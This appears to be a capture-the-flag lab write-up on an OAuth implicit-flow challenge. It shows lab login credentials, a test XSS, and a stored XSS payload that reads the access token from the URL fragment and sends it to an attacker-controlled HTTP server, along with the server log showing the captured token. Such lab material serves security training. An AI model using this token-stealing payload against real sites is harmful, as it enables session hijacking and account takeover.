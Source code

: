 Let's visit:

```
http://factbook.thm:8080
```

![](../images/Pasted%20image%2020250505142932.png)

If we click on sync, we get redirected here:

```
http://coffee.thm:8000/accounts/login/?next=/o/authorize/%3Fresponse_type%3Dtoken%26client_id%3DnpmL7WDiRoOvjZoGSDiJhU2ViodTdygjW8rdabt7%26redirect_uri%3Dhttp%253A%252F%252Ffactbook.thm%253A8080%252Fcallback.php
```

![](../images/Pasted%20image%2020250505143010.png)

We can login using:

```
victim:victim123
```

Once we login, we are redirected to:

```
http://factbook.thm:8080/callback.php#access_token=412aJ4FYFecOTNaX2vJo0f1diZqpLC&expires_in=36000&token_type=Bearer&scope=read+write&state=
```

![](../images/Pasted%20image%2020250505143054.png)

We can see that we can submit statuses, we can test `xss`:

```js
<script>alert("XSS")</script>
```

If we refresh the page, we can see this:

![](../images/Pasted%20image%2020250505143427.png)

This page is vulnerable to `xss`, we can perform the following `xss` payload to steal the token:

```js
<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1]; return res; }, {}); var accessToken = result.access_token; var img = new Image(); img.src = 'http://IP:8000/steal_token?token=' + accessToken; </script>
```

Once we submit it, if we refresh the page and have our python server ready, we can see this:

```python
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.11.136.34 - - [05/May/2025 19:34:13] code 404, message File not found
10.11.136.34 - - [05/May/2025 19:34:13] "GET /steal_token?token=412aJ4FYFecOTNaX2vJo0f1diZqpLC HTTP/1.1" 404 -
```
